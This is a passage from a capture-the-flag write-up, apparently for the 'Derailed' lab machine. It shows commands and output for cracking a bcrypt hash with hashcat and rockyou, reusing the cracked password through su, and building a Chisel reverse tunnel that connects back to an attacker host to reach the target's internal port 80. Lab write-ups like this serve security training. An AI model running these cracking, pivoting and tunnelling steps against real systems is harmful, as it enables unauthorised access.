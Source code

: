```
msplmee@kali:~$ hashcat hash /usr/share/wordlists/rockyou.txt --user -m 3200
hashcat (v6.2.6) starting
...
$2a$12$AD54WZ4XBxPbNW/5gWUIKu0Hpv9UKN5RML3sDLuIqNqqimqnZYyle:greenday
```

When I checked for password reuse, I found that the same password could be used to access the openmediavault-webgui user.

```apacheconf
rails@derailed:/home$ su openmediavault-webgui
Password: 
openmediavault-webgui@derailed:/home$ id
uid=999(openmediavault-webgui) gid=996(openmediavault-webgui) groups=996(openmediavault-webgui),998(openmediavault-engined),999(openmediavault-config)
```

## Shell as root <a href="#shell-as-root" id="shell-as-root"></a>

I'd like to check openmediavault. I've noticed it's on port 80 on localhost, and I can't use SSH tunnel. I'll upload Chisel.

I start the server on my VM.

```
msplmee@kali:~$ ./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
2023/09/13 10:39:39 server: Reverse tunnelling enabled
2023/09/13 10:39:39 server: Fingerprint cQmKk8xWLqhZn+sTzVnfzbjAS3ZZTFMbYZMKw587xyA=
2023/09/13 10:39:39 server: Listening on http://0.0.0.0:8000
2023/09/13 10:40:03 server: session#1: tun: proxy#R:8888=>localhost:80: Listening
```

And connect back to it:

```
openmediavault-webgui@derailed:/tmp$ ./chisel_1.9.1_linux_amd64 client 10.10.14.6:8000 R:8888:localhost:80
2023/09/13 04:16:19 client: Connecting to ws://10.10.14.6:8000
2023/09/13 04:16:20 client: Connected (Latency 90.018339ms)
```

I have a tunnel from port 8888 on my computer to port 80 on Derailed. The webpage shows a login form:
